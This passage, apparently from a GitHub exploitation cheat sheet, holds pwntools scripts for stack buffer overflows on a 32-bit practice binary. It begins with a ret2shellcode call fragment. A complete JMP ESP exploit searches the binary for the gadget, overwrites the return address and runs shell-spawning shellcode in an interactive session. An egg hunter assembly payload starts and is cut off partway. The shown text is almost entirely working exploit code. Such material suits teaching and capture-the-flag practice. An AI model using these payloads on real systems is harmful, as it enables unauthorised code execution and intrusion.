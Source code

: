 ```python
ret2shellcode()
```

### JMP ESP Technique (x86)

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'i386'

def jmp_esp_exploit():
    # Find JMP ESP gadget
    elf = ELF('./vuln32')
    
    # Search for JMP ESP instruction (0xFFE4)
    jmp_esp = None
    for addr in elf.search(b'\xff\xe4'):
        jmp_esp = addr
        break
    
    if not jmp_esp:
        print("JMP ESP not found")
        return
    
    print(f"JMP ESP found at: {hex(jmp_esp)}")
    
    # Generate shellcode
    shellcode = asm(shellcraft.sh())
    
    # Build payload
    offset = 68  # 32-bit offset
    payload = b'A' * offset
    payload += p32(jmp_esp)      # Overwrite return address
    payload += shellcode         # Shellcode on stack after return
    
    p = process('./vuln32')
    p.sendline(payload)
    p.interactive()

jmp_esp_exploit()
```

## Advanced Buffer Overflow Techniques

### Egg Hunting

```python
#!/usr/bin/env python3
from pwn import *

def egg_hunter():
    context.arch = 'i386'
    
    # Egg marker (should be unique)
    egg = b'W00T'
    
    # Egg hunter shellcode
    egghunter = asm(f'''
    next_page:
        or dx, 0x0fff
    next_addr:
        inc edx
```